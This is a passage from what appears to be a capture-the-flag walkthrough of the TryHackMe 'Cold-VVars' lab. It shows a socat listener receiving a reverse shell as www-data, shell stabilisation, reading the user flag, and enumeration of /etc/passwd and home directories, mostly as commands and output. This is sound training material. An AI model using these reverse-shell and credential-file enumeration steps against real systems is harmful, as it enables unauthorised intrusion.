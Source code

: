 ```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Cold-VVars)-[2023.01.20|17:59:00(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443      
2023/01/20 17:59:19 socat[86628] N opening character device "/dev/pts/1" for reading and writing
2023/01/20 17:59:19 socat[86628] N listening on AF=2 0.0.0.0:443
                                                                2023/01/20 18:00:38 socat[86628] N accepting connection from AF=2 10.10.207.207:57658 on AF=2 10.9.0.253:443
                                                                 2023/01/20 18:00:38 socat[86628] N starting data transfer loop with FDs [5,5] and [7,7]
                                             www-data@incognito:/var/www/html/dev$ 
www-data@incognito:/var/www/html/dev$ export TERM=xterm-256color
www-data@incognito:/var/www/html/dev$ stty rows 22 columns 107
www-data@incognito:/var/www/html/dev$ ^C
www-data@incognito:/var/www/html/dev$ whoami;hostname;id;ip a
www-data
incognito
uid=33(www-data) gid=33(www-data) groups=33(www-data)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:10:08:a6:9f:51 brd ff:ff:ff:ff:ff:ff
    inet 10.10.207.207/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3197sec preferred_lft 3197sec
    inet6 fe80::10:8ff:fea6:9f51/64 scope link 
       valid_lft forever preferred_lft forever
www-data@incognito:/var/www/html/dev$ 
```

I'm user `www-data`!

**user.txt:**
```shell
www-data@incognito:/var/www/html/dev$ cat /home/ArthurMorgan/user.txt 
{Redacted}
```

## Privilege Escalation

### www-data to ArthurMorgan

Let's do some basic enumerations!

**System users:**
```shell
www-data@incognito:/var/www/html/dev$ cat /etc/passwd | grep -E '/bin/bash|/bin/sh'
root:x:0:0:root:/root:/bin/bash
ArthurMorgan:x:1001:1002::/home/ArthurMorgan:/bin/sh
marston:x:1002:1003::/home/marston:/bin/bash

www-data@incognito:/var/www/html/dev$ ls -lah /home
total 16K
drwxr-xr-x  4 root         root         4.0K Mar 21  2021 .
drwxr-xr-x 25 root         root         4.0K May 28  2021 ..
drwxr-xr-x  6 ArthurMorgan ArthurMorgan 4.0K May 28  2021 ArthurMorgan
drwxr-xr-x  8 marston      marston      4.0K May 29  2021 marston
```
